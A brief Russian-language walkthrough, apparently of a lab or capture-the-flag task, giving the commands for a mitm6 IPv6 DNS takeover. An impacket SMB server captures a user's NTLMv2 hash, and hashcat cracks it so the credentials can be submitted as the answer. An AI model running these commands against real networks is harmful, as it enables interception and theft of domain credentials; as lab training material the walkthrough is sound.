

1. Узнаём имя домена  
   nmap --script whois-domain.nse 192.168.0.0/16
2. Запуск утилиты mitm6  
   Pip install mitm6  
   mitm6 –d <название домена>  
   После выполнения атаки на атакуемой рабочей станции появится новый DNS-сервер с нашим IPv6-адресом.
   
3. Создание своего сервера SMB. Не отключая mitm6, создадим SMB сервер:  
   python3 smbserver.py -smb2support SMB /root/SMB
4. Бот срабатывает и мы видим аутентификационные данные пользователя (Имя и его NTLMv2-хэш).  
   hashcat –m 5600 [NTLMv2] –a 3 –status –o [file], где NTLMv2 – найденный хэш, file – куда запишется найденный пароль и другое.  
   Логин и пароль вводим в качестве ответа.
